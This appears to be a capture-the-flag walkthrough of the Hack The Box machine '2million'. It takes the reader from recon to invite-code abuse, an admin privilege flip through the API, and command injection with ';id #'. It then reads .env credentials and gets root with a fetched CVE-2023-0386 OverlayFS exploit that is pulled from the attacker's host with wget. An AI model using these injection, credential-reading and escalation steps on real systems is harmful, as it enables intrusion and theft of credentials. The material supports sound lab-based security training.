### Task 1

How many TCP ports are open?

Running ``nmap -sS <target_ip>`` we see two ports open on the target system. 



### Task 2

What is the name of the JavaScript file loaded by the /invite page that has to do with invite codes?

Navigating to the target IP on the browser we see that the server is not found. After adding the target IP on the host file using the command ``sudo vim /etc/hosts`` with the domain name being ``2million.htb`` we can refresh the page and navigate to the /invite page. There, we see a sign-up/login form. 



Viewing the page source and searching for any Javascript file, we locate the following, having the name ``inviteapi.min.js``:



### Task 3

What JavaScript function on the invite page returns the first hint about how to get an invite code? Don't include () in the answer.

Opening the previous file, we locate the function ``makeInviteCode`` that is the Javascript function returning the first hint.

### Task 4

The endpoint in makeInviteCode returns encrypted data. That message provides another endpoint to query. That endpoint returns a code value that is encoded with what very common binary to text encoding format. What is the name of that encoding?

First, opening the console on the developer tools, we call the function by ``makeInviteCode`` and observe the result:

 

We see that the data is encoded with ROT13, so we can decode the value of the field ``data`` using any ROT13 decoder and we get the message "In order to generate the invite code, make a POST request to /api/v1/invite/generate". So, we can use ``fetch`` in the browser console to query this endpoint by:

```
fetch('/api/v1/invite/generate', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' }
})
  .then(res => res.json())
  .then(data => console.log(data));
```

As a response, we see the code that is encoded using Base64.



### Task 5

What is the path to the endpoint the page uses when a user clicks on "Connection Pack"?

First, we decode the code from the previous task and use it to sign up and register for an account. We then login and look for the "Connection Pack". We find it under the "Access" page, we open the tools on the Network tab and clicking the button. On the Headers tab of the request we see the API endpoint where the GET function sends the request.

### Task 6

How many API endpoints are there under /api/v1/admin?

By navigating to the endpoint ``/api/v1`` we can see a list of endpoints including admin.



### Task 7 

What API endpoint can change a user account to an admin account?

Inspecting the result from the previous task we see that he desired endpoint is ``/api/v1/admin/settings/update``.

<!--truncate--> 

### Task 8

What API endpoint has a command injection vulnerability in it?

We can try to send a PUT request to the endpoint from the previous task using Repeater. We need to also adjust the content type to be Content-Type: application/json on the request. From the response we see that there is a missing parameter for the email field.



Adding the parameter email on the body of the request and repeating we see that there is also the is_admin parameter missing. We can try adding this as well with the value being true to see whether we are able to change the privileges for the registered user. Sending this request we get a status code of 200 meaning a successful request. 



We can also use the endpoint ``/api/v1/admin/auth`` to check if the user is admin which returns a positive response. Since we are now an admin user, we can also try the last API endpoint with the method POST ``/api/v1/admin/vpn/generate``. For this request to succeed, we need also to add the Content-Type to be application/json as before as well as the username with its value as body parameter. To see if this is the endpoint that has the command injection vulnerability, we can try injecting ``;id #`` after the value of the username field on the body. 



The request goes through giving us a 200 OK status code and returning back the user's identity information which means the command injection is successful. 

### Task 9

What file is commonly used in PHP applications to store environment variable values?

Further using the command injection, we can try listing the contents of the diretory by changing the ``id`` command to ``ls``. On the response, we see a list of files and folders.



From those, we can use ``cat index.php`` command and see the contents of this file in the response. 



From the response it seems that those values are being read from a ``.env`` file. Seeing the contents of the file with the command ``cat .env`` we get the environmental variables for the database as a response. 

### Task 10

Submit the flag located in the admin user's home directory.

Using the admin's credentials found previously, we can now directly ssh to the server to obtain the flag by ``ssh admin@2million.htb`` and providing the admin's password. Then, finding the flag is just as easy as running ``cat user.txt``.

### Task 11

What is the email address of the sender of the email sent to admin?

In linux, local emails are usually stored in ``/var/mail`` directory. Navigating there and opening the file with the name "admin" we find the sender.

### Task 12

What is the 2023 CVE ID for a vulnerability in that allows an attacker to move files in the Overlay file system while maintaining metadata like the owner and SetUID bits?

Looking up for vulnerabilities of the Overlay file system in the [CVE database](https://www.cve.org/), we find the CVE ID.

### Task 13

Submit the flag located in root's home directory.

Looking up for a public exploit for this vulnerability we come up with a [github repository](https://github.com/sxlmnwb/CVE-2023-0386). In order to use this exploit on the target machine where we gained the admin privilege, we have first to clone it on the host machine and then open a connection by spanning a python server on the directory where the repository file is. Before attempting transfer, we need to compress the entire foler into a single file using the command ``tar czf CVE-2023-0386.tar.gz CVE-2023-0386/``. Running ``python3 -m http.server 8080`` opens a connection on port 8080 so we can now communicate from the target server to transfer the file using the command ``wget http://<host_ip>:8080/CVE-2023-038.tar.gz``. Then, after extracting the archive by ``tar xzf CVE-2023-0386.tar.gz`` we can use the repository's README as guide to compile by running ``make``. On the same terminal we then run ``./fuse ./ovlcap/lower ./gc`` and om a second terminal ``./exp``. We now have root access and we can navigate to root's directory, run ``cat root.txt`` and get the flag.


